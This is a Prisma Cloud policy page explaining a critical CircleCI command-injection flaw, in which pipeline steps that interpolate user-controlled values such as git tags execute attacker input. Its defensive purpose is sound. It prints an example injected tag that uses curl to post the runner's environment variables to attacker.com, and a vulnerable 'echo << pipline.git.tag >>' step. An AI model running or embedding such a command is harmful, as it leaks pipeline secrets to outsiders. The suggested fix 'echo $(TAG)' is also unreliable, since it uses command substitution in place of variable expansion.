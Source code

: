 == CirceCI pipeline vulnerable to command injection 

=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 

|Prisma Cloud Policy ID 
|86219273-ec96-4598-8011-fbf6821e022d 

|Severity
|Critical
// add severity level

|Category
|Input Validation
// add category+link

|Subtype
|Build
// add subtype-build/runtime

|Frameworks
|CircleCI

|=== 

=== Description 

Pipelines are vulnerable to command injection attacks, in which arbitrary commands and scripts are passed through user controlled inputs such as pull request title, commit description and so on. These inputs can then be referenced by the pipeline configuration file and executed as part of the pipeline job.

When the pipeline job runs, the poisoned controlled inputs can be interpreted as code and executed on the runner, enabling remote code execution attacks to take place. This will allow the attacker to access stored secrets or to read or modify the source code. 

*EXAMPLE*

The following code snippet is designed to print the associated git tag:

[source,unset]
----
steps: 
 - run: echo << pipline.git.tag >>
----

Attackers can inject their own commands by creating the git tag value:

----
curl -X POST -d $(env) https://attacker.com/exfiltrate
----

After the pipeline is triggered, this string will be evaluated and executed in the context of the pipeline. As a result, the environment variables will be sent to the attackers' server.

=== Recommended Solution - Buildtime

Pipelines should never run unsanitized and/or untrusted input. To mitigate command injection attacks, the recommended approach is to assign the value of the expression to an intermediate environment variable. This will cause command injection attacks to fail.

*EXAMPLE*

[source,unset]
----
environment:
 TAG: << pipline.git.tag >>
steps: 
- run: echo $(TAG)
----









